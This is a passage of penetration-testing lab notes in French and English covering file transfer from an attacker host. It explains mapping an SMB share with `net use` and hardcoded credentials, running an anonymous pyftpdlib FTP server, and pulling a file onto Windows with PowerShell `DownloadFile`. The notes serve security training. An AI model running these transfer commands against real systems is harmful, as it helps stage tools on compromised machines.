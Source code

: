 Si tu exécutes cette commande et que le partage est public ou que tes informations d'identification sont déjà stockées dans la session, le fichier est copié directement sans avoir besoin de se connecter explicitement.

#### 2. **Commande `net use n: \\192.168.220.133\share /user:test test`** :

Cette commande est utilisée pour **mapper un partage réseau SMB** à une lettre de lecteur (ici, `n:`) et pour se connecter au partage en fournissant des **informations d'identification**.

* **`net use`** : C'est une commande qui permet d'établir une connexion à un partage réseau SMB et de mapper cette connexion à une lettre de lecteur locale.
* **`n:`** : C'est la lettre de lecteur que tu souhaites assigner au partage réseau. Une fois la commande exécutée avec succès, tu pourras accéder au partage réseau via `n:` comme s'il s'agissait d'un lecteur local.
* **`\\192.168.220.133\share`** : Comme précédemment, c'est l'adresse du partage réseau SMB.
* **`/user:test test`** : Ces options spécifient que tu veux te connecter au partage en utilisant le nom d'utilisateur `test` et le mot de passe `test`.
{% endhint %}



***

## <mark style="color:red;">FTP Downloads</mark>

<mark style="color:orange;">**Installing the FTP Server Python3 Module - pyftpdlib**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo pip3 install pyftpdlib
```
{% endcode %}

Then we can specify port number 21 because, by default, `pyftpdlib` uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password.

<mark style="color:orange;">**Setting up a Python3 FTP Server**</mark>

{% code fullWidth="true" %}
```sh
mrroboteLiot@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```
{% endcode %}

After the FTP server is set up, we can perform file transfers using the pre-installed FTP client from Windows or PowerShell `Net.WebClient`.

<mark style="color:orange;">**Transfering Files from an FTP Server Using PowerShell**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
{% endcode %}

